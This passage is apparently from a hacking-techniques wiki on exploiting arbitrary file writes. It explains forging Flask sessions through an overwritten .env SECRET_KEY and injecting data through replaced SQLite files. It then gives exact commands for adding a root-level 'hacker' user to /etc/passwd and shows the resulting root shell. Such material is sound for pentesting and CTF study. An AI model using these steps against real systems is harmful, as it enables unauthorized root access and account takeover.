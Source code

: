 ### Environment and Settings

Overwriting the settings of an application can have a significant effect on security. As the above showed, there are often many sensitive options and you just have to find them in the documentation or with some educated guessing.&#x20;

One example is the `.env` file which often replaces environment variables for an application. If a [flask.md](../languages/web-frameworks/flask.md "mention") webserver uses this file to get its `SECRET_KEY` variable, for example, you will be able to forge any session as explained in [#forging-session](../languages/web-frameworks/flask.md#forging-session "mention") with your known key.

Some formats like [yaml.md](../languages/yaml.md "mention") may even be so complex that they allow arbitrary instantiation of classes, resulting in Insecure Deserialization. Keep this in mind when evaluating overwriting such a config file, that you don't necessarily need to exploit an option if you can exploit the format itself.

### Database/storage files

Some databases like [SQLite](https://www.sqlite.org/) store all their data in local files. While this makes it simple, it also allows you to overwrite these files with any data of your choice. Suddenly, you control every bit of data, expanding the attack surface greatly as developers might not expect some generated data to be user-controlled.&#x20;

One common example is through [#deserialization](arbitrary-file-write.md#deserialization "mention") exploits like session data. Other applications might also store custom bits of data that are included in shell commands. After locally creating the same database structure with your injected data, write the file to the location. Often a reload is not required as databases change all the time, so it should instantly have an effect.

### root `/etc/passwd`

The root user may edit `/etc/passwd` to add another root-level user with your own password. Then you can log in as that user and get root privileges:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ openssl passwd 'hacker'  # Generate password
</strong>aQeFa8LxllpT.
</code></pre>

Then if you somehow append the following line to the `/etc/passwd` file, you will be able to log in as root using the password "hacker":

<pre class="language-shell"><code class="lang-shell">root:x:0:0:root:/root:/bin/bash
...
<strong>hacker:aQeFa8LxllpT.:0:0:root:/root:/bin/bash
</strong></code></pre>

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ssh hacker@$IP
</strong>Password: hacker
# id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>
